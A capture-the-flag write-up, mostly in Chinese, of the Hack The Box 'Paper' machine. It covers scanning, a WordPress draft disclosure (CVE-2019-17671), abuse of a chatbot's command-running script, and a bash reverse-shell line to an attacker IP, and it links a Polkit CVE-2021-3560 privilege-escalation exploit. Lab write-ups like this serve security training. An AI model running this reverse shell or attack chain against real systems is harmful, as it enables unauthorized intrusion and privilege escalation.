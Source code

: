 ```yaml
---
title: Hack The Box - Paper(Easy)
date: 2022-02-17
tags:
  - htb
  - pentest
category: htb
password: CVE-2021-3560
---
```


# Hack The Box - Paper(Easy)

## Information

Nmap结果

```
Starting Nmap 7.92 ( https://nmap.org ) at 2022-02-17 14:31 CST
Nmap scan report for bogon (10.10.11.143)
Host is up (0.13s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey:
|   2048 10:05:ea:50:56:a6:00:cb:1c:9c:93:df:5f:83:e0:64 (RSA)
|   256 58:8c:82:1c:c6:63:2a:83:87:5c:2f:2b:4f:4d:c3:79 (ECDSA)
|_  256 31:78:af:d1:3b:c4:2e:9d:60:4e:eb:5d:03:ec:a0:22 (ED25519)
80/tcp  open  http     Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
| http-methods:
|_  Potentially risky methods: TRACE
|_http-title: HTTP Server Test Page powered by CentOS
|_http-generator: HTML Tidy for HTML5 for Linux version 5.7.28
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
443/tcp open  ssl/http Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
| http-methods:
|_  Potentially risky methods: TRACE
|_http-title: HTTP Server Test Page powered by CentOS
|_http-generator: HTML Tidy for HTML5 for Linux version 5.7.28
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=Unspecified/countryName=US
| Subject Alternative Name: DNS:localhost.localdomain
| Not valid before: 2021-07-03T08:52:34
|_Not valid after:  2022-07-08T10:32:34
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
|_ssl-date: TLS randomness does not represent time
| tls-alpn:
|_  http/1.1

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 42.29 seconds
```

## Steps

### X-Backend-Server

Curl有个奇怪的头

```
> GET / HTTP/1.1
> Host: 10.10.11.143
> User-Agent: curl/7.80.0
> Accept: */*
>
* Mark bundle as not supporting multiuse
< HTTP/1.1 403 Forbidden
< Date: Thu, 17 Feb 2022 06:43:52 GMT
< Server: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
< X-Backend-Server: office.paper
< Last-Modified: Sun, 27 Jun 2021 23:47:13 GMT
< ETag: "30c0b-5c5c7fdeec240"
< Accept-Ranges: bytes
< Content-Length: 199691
< Content-Type: text/html; charset=UTF-8
<
```

修改hosts让`office.paper`解析到`10.10.11.143`

是个wordpress

### Wordpress

wpscan

找到 `CVE-2019-17671`

访问`http://office.paper/?static=1`

```
test

Micheal please remove the secret from drafts for gods sake!

Hello employees of Blunder Tiffin,

Due to the orders from higher officials, every employee who were added to this blog is removed and they are migrated to our new chat system.

So, I kindly request you all to take your discussions from the public blog to a more private chat system.

-Nick

# Warning for Michael

Michael, you have to stop putting secrets in the drafts. It is a huge security issue and you have to stop doing it. -Nick

Threat Level Midnight

A MOTION PICTURE SCREENPLAY,
WRITTEN AND DIRECTED BY
MICHAEL SCOTT

[INT:DAY]

Inside the FBI, Agent Michael Scarn sits with his feet up on his desk. His robotic butler Dwigt….

# Secret Registration URL of new Employee chat system

http://chat.office.paper/register/8qozr226AhkCHZdyY

# I am keeping this draft unpublished, as unpublished drafts cannot be accessed by outsiders. I am not that ignorant, Nick.

# Also, stop looking at my drafts. Jeez!
```

### Chat

修改hosts访问`chat.office.paper`

注册，登录，找到机器人

发送`recyclops help`

获得帮助

![image-20220217152039907](https://cdn.yoshino-s.online//typora_img/image-20220217152039907.png)

```
recyclops file ../hubot/scripts/run.js
```

```
// Description:
// Runs a command on hubot
// TOTAL VIOLATION of any and all security!
//
// Commands:
// hubot run <command> - runs a command on hubot host

module.exports = function(robot) {
robot.respond("/RUN (.*)$/i", function(msg) {
console.log(msg);
var cmd = msg.match[1];
msg.send("Running " + cmd);
var exec = require('child_process').exec;
exec(cmd, function(error, stdout, stderr) {
if (error) {
msg.send(error);
msg.send(stderr);
} else {
msg.send(stdout);
}
});
});
};
```

所以发送

```
cmd bash -i >& /dev/tcp/10.10.14.5/7788 0>&1run ls
```

![image-20220217163500031](https://cdn.yoshino-s.online//typora_img/image-20220217163500031.png)

找到作者自己写的提权脚本

https://github.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation

多跑几次就行了

